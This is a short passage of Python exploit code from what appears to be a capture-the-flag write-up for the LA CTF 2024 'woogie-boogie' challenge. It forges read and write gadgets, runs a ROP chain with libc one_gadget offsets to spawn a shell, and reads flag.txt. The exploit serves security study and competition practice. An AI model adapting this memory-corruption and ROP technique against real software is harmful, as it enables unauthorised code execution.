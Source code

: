 ```python  

# RCE (c 11)  
linfo("woogie boogie")  
lhex(BASE, 'base: ')

DONOR = base_diff(0x7fffffffe318, 0x7fffffffe370)  
READ_GADGET = 0x1248  
DONOR_ADR = 0x1280

char = READ_GADGET & 0xff  
ptr = BASE^char

up = base_diff(ptr)  
lhex(ptr, "up: ")  
woogie_boogie(up, DONOR)  
create_char(char)  
woogie_boogie(B_STACK, 0)

linfo("create WRITE gadget")  
# c 15  
# can be shortend but easier to explain like this  
xor = char ^ (DONOR_ADR & 0xff) ^ (READ_GADGET & 0xff)  
xor_ptr = BASE^xor  
xor_up = base_diff(xor_ptr)  
woogie_boogie(xor_up, up)  
create_char(xor)  
woogie_boogie(B_STACK, 0)

# c 19  
linfo("start ROP")  
woogie_boogie(SWAP_ROP, xor_up)

rce = flat(  
 LIBC + 0xce383, # clear rdx  
 LIBC + 0xe3b01 # one_gadget  
)

linfo("spawn shell")  
sl(rce)

if args.REMOTE:  
 sleep(1)

linfo("get flag")  
sl("echo PWN")  
sla("PWN", "cat flag.txt")

it() # or t.interactive()  
```

Original writeup (https://www.gfelber.dev/writeups/LA_CTF_2024_woogie-
boogie.md).